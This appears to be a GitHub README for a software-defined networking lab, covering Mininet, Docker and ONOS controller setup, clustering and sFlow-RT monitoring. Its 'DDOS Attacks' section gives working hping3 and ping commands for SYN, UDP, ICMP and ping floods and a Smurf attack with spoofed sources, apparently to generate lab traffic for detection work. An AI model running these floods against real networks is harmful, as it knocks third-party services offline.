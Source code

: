 ## Installing Mininet
* sudo apt-get install mininet

## Installing Docker
* sudo apt-get purge docker docker-engine docker.io
* sudo apt-get update
* sudo apt-get install apt-transport-https ca-certificates curl software-properties-common
* curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
* sudo apt-key fingerprint 0EBFCD88
* Verify that you now have the key with the fingerprint.
* sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable"
* sudo apt-get update
* sudo apt-get install docker-ce

## Configuring Proxy in docker
* mkdir -p /etc/systemd/system/docker.service.d
* sudo gedit /etc/systemd/system/docker.service.d/http-proxy.conf
* Enter following in file:<br>
```
[Service]<br>
Environment="HTTP_PROXY=http://edcguest:edcguest@172.31.52.51:3128/"
```
* sudo gedit /etc/systemd/system/docker.service.d/https-proxy.conf
* Enter following in file:<br>
```
[Service]<br>
Environment="HTTPS_PROXY=https://edcguest:edcguest@172.31.52.51:3128/"
```
* sudo systemctl daemon-reload
* sudo systemctl restart docker
* open new terminal and verify that proxy is set by typing <br> *sudo systemctl show --property=Environment docker*
* docker run hello-world
## Downloading onos
* docker pull onosproject/onos:1.11.1
* sudo docker images (verify)
## Installing other requirements
* sudo apt-get purge python-pip
* wget https://bootstrap.pypa.io/get-pip.py
* python get-pip.py
* sudo pip install networkx
* sudo pip install paramiko

## Running onos instances
* sudo docker run -t -d --name onos1 onosproject/onos:1.11.1<br>
 * sudo docker run -t -d --name onos2 onosproject/onos:1.11.1<br>
* sudo docker run -t -d --name onos3 onosproject/onos:1.11.1<br>
## Docker IPs
* 172.17.0.2
* 172.17.0.3 and so on (based on number of instances)
## SSH inside the ONOS
* ssh -p 8101 karaf@172.17.0.2
* password : **karaf**
## Activating apps inside ONOS
* app activate org.onosproject.openflow
* app activate org.onosproject.fwd
## Accessing the GUI 
* Go to http://172.17.0.2:8181/onos/ui/index.html
* username : **onos**
* password : **rocks**
## Wiping out ONOS
* wipe-out please (clears the nodes)
## Stopping already running instances
* docker stop onos1 onos2 onos3
## Removing old containers
* docker rm onos1 onos2 onos3
## Forming cluster
* ./onos-form-cluster -u karaf -p karaf 172.17.0.2 172.17.0.3 172.17.0.4
## using standard mininet topologies
* sudo mn --controller=remote,ip=172.17.0.2,port=6653 --topo=[ linear|minimal|reversed|single|torus|tree ],10 
## cleaning mininet
* sudo mn -c
## DDOS Attacks
+ ### SYN Flood
```
sudo hping3 --rand-source –S –L 0 –p 80 <target IP>
```
+ ### UDP Flood
```
sudo hping3 --rand-source -–udp -p 53 <target IP> --flood
```
+ ### ICMP Flood
```
sudo hping3 --icmp --rand-source <target IP> --flood
```
+ ### Ping Flood
```
sudo ping -f -s 65500 <Target IP>
```
+ ### Smurf Attack
```
sudo hping3 -1 --flood -a <Victim IP> <Broadcast IP>
```
### SFlow-RT
sFlow-RT is a network monitoring tool delivering real-time visibility to Software
Defned Networking (SDN).It gives us all the real time analytics about the current
state of out network.You can download it from [here](https://sflow-rt.com/). 
## Other contributors
* [Chaitanya kumar](https://github.com/ckumar2398)
* [Aditya Choudary](https://github.com/adityachd123)
* [Kapil Dev](https://github.com/kapilDev1)
* [Ayushi Sharma](https://www.google.com)
